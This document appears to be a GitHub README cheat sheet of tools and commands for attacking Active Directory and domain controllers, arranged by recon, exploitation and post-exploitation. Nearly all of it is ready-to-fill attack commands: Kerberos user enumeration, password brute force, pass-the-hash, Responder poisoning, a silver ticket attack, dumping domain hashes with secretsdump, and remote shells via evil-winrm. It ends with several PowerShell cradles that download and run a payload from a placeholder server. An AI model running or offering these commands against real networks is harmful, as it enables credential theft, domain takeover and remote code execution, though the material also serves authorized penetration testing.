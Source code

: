 <pre>
               _   _             _____  _               _                   
     /\       | | (_)           |  __ \(_)             | |                  
    /  \   ___| |_ ___   _____  | |  | |_ _ __ ___  ___| |_ ___  _ __ _   _ 
   / /\ \ / __| __| \ \ / / _ \ | |  | | | '__/ _ \/ __| __/ _ \| '__| | | |
  / ____ \ (__| |_| |\ V /  __/ | |__| | | | |  __/ (__| || (_) | |  | |_| |
 /_/    \_\___|\__|_| \_/ \___| |_____/|_|_|  \___|\___|\__\___/|_|   \__, |
                                                                       __/ |
                                                                      |___/ 
               ___ _                _   __ _               _   
              / __\ |__   ___  __ _| |_/ _\ |__   ___  ___| |_ 
             / /  | '_ \ / _ \/ _` | __\ \| '_ \ / _ \/ _ \ __|
            / /___| | | |  __/ (_| | |__\ \ | | |  __/  __/ |_ 
            \____/|_| |_|\___|\__,_|\__\__/_| |_|\___|\___|\__|
                                                   
</pre>

### A compilation of tools and techniques targeting Active Directory and Domain Controlers.


## 0x00 Mind Map
[Pentesting Active Directory](https://www.xmind.net/m/5dypm8/)


## 0x01 Recon & Enumeration

##### [ARP-Scan](https://github.com/royhills/arp-scan)
Host discovery:

`arp-scan --interface=<INTERFACE> --localnet`


#### [Impacket-GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)
Get user's non-preauth AS-Rep TGT:

`getnpusers <domain_name>/<user> -dc-ip=<domain_controller_ip>`


##### [Kerbrute](https://github.com/ropnop/kerbrute)
Enumerate or validate accounts through Kerberos Pre-Authentication [aka Pre-auth Bruteforcing]:

`kerbrute userenum --dc <DOMAIN CONTROLLER> -d <DOMAIN> <WORDLIST>` 


##### [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
Brute-force with User&Pass combinations:

`crackmapexec smb <IP> -u <USER LIST> -P <PASSWORD>`

Pass-The-Hash

`crackmapexec smb <HOST/RANGE> -u <USER> -H <NTLM HASH>`


##### [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
LDAP Enumeration

`python3 gMSADumper.py -u <USER> -p <PASSWORD> -d <DOMAIN>`


#### [BloodHound](https://github.com/BloodHoundAD/BloodHound)
Authenticated Domain Enumeration

`bloodhound-python -u <user> -p <pass> -ns <domain_controler_ip> -d <domain_name> -c All`
##### _Please note that this configuration shall get you caught, as it is going to send a lot of queries against the domain._


## 0x02 Exploitation

##### [Responder](https://github.com/lgandx/Responder/)

Listening for events:

`responder -I <NETWORK INTERFACE> -A`

##### [Impacket-getSTX](https://github.com/SecureAuthCorp/impacket)

Silver Ticket Attack

`python3 getST.py <DOMAIN>/<USER>$ -spn WWW/<DOMAIN CONTROLLER> -hashes :<HASH> -impersonate <USER TO IMPERSONATE>`


## 0x03 Post-Exploitation

##### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
Get a foothold on a remote machine

`evil-winrm -i <machine_ip> -u <user> -p <pass>`


##### [KrbRelayX](https://github.com/dirkjanm/krbrelayx)

Add DNS records:

`python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' -a add -r '<RECORD.DOMAIN>' -d <YOUR IP> <MACHINE IP>`

##### [Impacket-getADUser](https://github.com/SecureAuthCorp/impacket)

Authenticated User Enumeration

`python3 GetADUsers.py -all <DOMAIN>/<USER>:<PASS> -dc-ip <IP ADDRESS>`


##### [Impacket-SecretsDump](https://github.com/SecureAuthCorp/impacket)

Dump User Hashes from Domain Controller

`python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<MACHINE>`

##### Downloading files via PowerShell
`iex (New-Object Net.WebClient).DownloadString('http://server/payload.ps1')`


`$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$false;$ie.navigate('http://server/payload.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response`

###### PSv3 & onwards
`iex (iwr 'http://server/payload.ps1')`


`$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://server/payload.ps1',$false);$h.send();iex
$h.responseText`


`$wr = [System.NET.WebRequest]::Create("http://server/payload.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`


